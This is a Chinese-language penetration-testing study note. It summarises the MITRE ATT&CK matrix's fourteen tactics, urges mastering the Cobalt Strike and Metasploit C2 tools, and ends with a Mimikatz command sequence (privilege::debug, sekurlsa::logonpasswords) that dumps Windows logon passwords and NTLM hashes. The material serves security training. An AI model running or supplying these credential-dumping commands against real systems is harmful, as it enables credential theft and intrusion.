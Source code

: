 实战在渗透测试人员可以根据 `ATT&CK` 中的高频技术对需求方企业进行安全测试，形成安全方案，以加固企业的安全性；在红蓝对抗中，无论是蓝方还是红方都可以使用 `ATT&CK` 框架，红方可以进行网络钓鱼、水坑攻击等技术，蓝方可以利用框架中的技术提前对系统网站做审计和防护工作。

### 1.3 ATT&CK 攻击矩阵框架

-   矩阵横轴表示战术（有 14 项战术）、纵轴表示技术（177 项技术 348 项子技术）、中间包括程序。

| **序号** | **战术** | **战术功能** |
| --- | --- | --- |
| 1   | 侦察  | 攻击方收集信息，以便未来的行动。包含主动和被动地搜集侦察技术。此类信息一般包含受害者组织、基础设施或人员 |
| 2   | 资源开发 | 建立攻击者行动所需资源，包含基础设施、攻击人员创建、购买/窃取用于支持目标定位的资源技术。 |
| 3   | 初始访问 | 攻击方试图进入目标网络，获取一个入口 |
| 4   | 执行  | 运行恶意代码 |
| 5   | 持久化 | 保持攻击立足点，获得永久的控制能力 |
| 6   | 权限提升 | 获取最高权限 |
| 7   | 防御绕过 | 避免被发现 |
| 8   | 凭证获取 | 窃取账号、密码、凭证等 |
| 9   | 发现  | 弄清对方网络环境 |
| 10  | 横向移动 | 内网漫游，攻击其他网络 |
| 11  | 搜集  | 收集感兴趣的数据 |
| 12  | 命令控制 | 试图与目标网络通信，操纵目标系统和网络 |
| 13  | 数据渗出 | 窃取数据并输出 |
| 14  | 影响  | 中断和破坏对手网络和数据，给对方网络造成伤害 |

参考：[https://blog.csdn.net/qq\_40216188/article/details/123106969](https://blog.csdn.net/qq_40216188/article/details/123106969)  
[https://attack.mitre.org/](https://attack.mitre.org/)  
【工具基础】：把 cobalt strike，msf 这两个 c2 工具玩熟

要求：能知道 c2 是什么意思，学会如何上线目标机器，以及如何用 shellcode 上线

# 内网渗透神器（Mimikatz）

【工具基础】：学会用 mimikatz 的使用，重点是如何用 mimikatz 抓密码。

```bash
mimikatz # log
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

直接获取 NTLM  